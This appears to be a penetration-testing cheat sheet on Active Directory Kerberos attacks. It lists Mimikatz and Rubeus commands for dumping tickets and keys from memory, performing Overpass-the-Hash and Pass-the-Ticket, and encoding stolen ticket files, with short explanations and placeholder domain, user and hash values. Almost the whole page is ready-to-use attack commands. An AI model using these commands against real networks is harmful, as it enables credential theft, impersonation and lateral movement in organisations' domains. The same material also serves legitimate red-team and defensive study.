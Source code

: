 # Ticket/Hash Attacks

## Exporting Tickets

### **Mimikatz**

```powershell
sekurlsa::tickets /export
or if don't work try
sekurlsa::ekeys
```

The tickets ending with a <mark style="color:green;">**$**</mark> symbol represent the computer account, which requires a ticket to communicate with the **AD**. User tickets, on the other hand, include the user's name, followed by an <mark style="color:green;">**@**</mark> symbol that separates the service name and the domain. For example: <mark style="color:green;">**\[randomvalue]-username@service-domain.local.kirbi**</mark>.

### **Rubeus**

```powershell
Rubeus.exe dump /nowrap
```

## Overpass-The-Hash

When <mark style="color:green;">**Pass-The-Hash**</mark> is mostly used to bypass regular login, then <mark style="color:green;">**Overpass-The-Hash**</mark> is using hash for requesting **TGT** from **KDC**.

### Mimikatz

```powershell
sekurlsa::pth /domain:amogus.kek /user:carni7 /ntlm:1293uo1uwfoi1hw081
```

### Rubeus

Here we use <mark style="color:red;">**asktgt**</mark> module to request a **TGT** using hash and **KDC**.

```powershell
Rubeus.exe asktgt /domain:amogus.kek /user:carni7 /aes256:1293uo1uwfoi1hw081 /nowrap
```

## Pass-The-Ticket

<mark style="color:green;">**Pass-The-Ticket**</mark> in contrast of <mark style="color:green;">**Pass-The-Hash**</mark> and <mark style="color:green;">**Overpass-The-Hash**</mark> use a ticket to gain access to the TGS and then for service.

### Mimikatz

```
kerberos::ptt "C:\Users\carni7\Desktop\Mimikatz\[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi"
```

### Rubeus PTT Using Hash

```
Rubeus.exe asktgt /domain:amogus.kek /user:carni7 /rc4:1293uo1uwfoi1hw081 /ptt
```

Unlike command for <mark style="color:green;">**Overpass-The-Hash**</mark>, here we are using <mark style="color:red;">**/ptt**</mark> to do both <mark style="color:green;">**Overpass-The-Hash**</mark> and <mark style="color:green;">**Pass-The-Ticket**</mark> simultaneously. But that only works if we give <mark style="color:red;">**/hash**</mark>: instead of ticket

### Rubeus PTT Using Ticket

```powershell
Rubeus.exe ptt /ticket:[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi
```

### Rubeus PTT Using Encoded Ticket

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi"))
```

```powershell
Rubeus.exe ptt /ticket:LETSIMAGINETHISISOURBASE64ENCODEDKERBEROSTICKET
```
